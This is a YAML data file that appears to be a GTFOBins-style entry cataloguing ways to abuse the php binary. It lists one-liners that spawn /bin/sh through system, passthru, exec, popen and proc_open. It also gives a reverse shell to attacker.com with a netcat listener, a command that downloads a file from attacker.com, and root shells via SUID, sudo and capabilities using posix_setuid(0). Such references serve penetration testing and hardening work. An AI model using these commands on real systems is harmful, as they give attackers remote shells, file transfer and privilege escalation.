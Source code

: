 ```yaml
---
functions:
  execute-interactive:
    - code: |
        export CMD="/bin/sh"
        php -r 'system(getenv("CMD"));'
    - code: |
        export CMD="/bin/sh"
        php -r 'passthru(getenv("CMD"));'
    - code: |
        export CMD="/bin/sh"
        php -r 'print(shell_exec(getenv("CMD")));'
    - code: |
        export CMD="/bin/sh"
        php -r '$r=array(); exec(getenv("CMD"), $r); print(join("\\n",$r));'
    - code: |
        export CMD="/bin/sh"
        php -r '$h=@popen(getenv("CMD"),"r"); if($h){ while(!feof($h)) echo(fread($h,4096)); pclose($h); }'
  execute-non-interactive:
    - code: |
        export CMD="id"
        php -r '$p = array(array("pipe","r"),array("pipe","w"),array("pipe", "w"));$h = @proc_open(getenv("CMD"), $p, $pipes);if($h&&$pipes){while(!feof($pipes[1])) echo(fread($pipes[1],4096));while(!feof($pipes[2])) echo(fread($pipes[2],4096));fclose($pipes[0]);fclose($pipes[1]);fclose($pipes[2]);proc_close($h);}'
  reverse-shell-interactive:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        php -r '$sock=fsockopen(getenv("RHOST"),getenv("RPORT"));exec("/bin/sh -i <&3 >&3 2>&3");'
  upload:
    - description: Serve files in the local folder running an HTTP server. This requires PHP version 5.4 or later.
      code: |
        LHOST=0.0.0.0
        LPORT=8888
        php -S $LHOST:$LPORT
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        php -r '$c=file_get_contents(getenv("URL"));file_put_contents(getenv("LFILE"), $c);'
  suid-enabled:
    - code: |
        CMD="/bin/sh"
        ./php -r "system('$CMD');"
  sudo-enabled:
    - code: |
        CMD="/bin/sh"
        sudo php -r "system('$CMD');"
  capabilities-enabled:
    - code: |
        CMD="/bin/sh"
        ./php -r "posix_setuid(0); system('$CMD');"
---
```


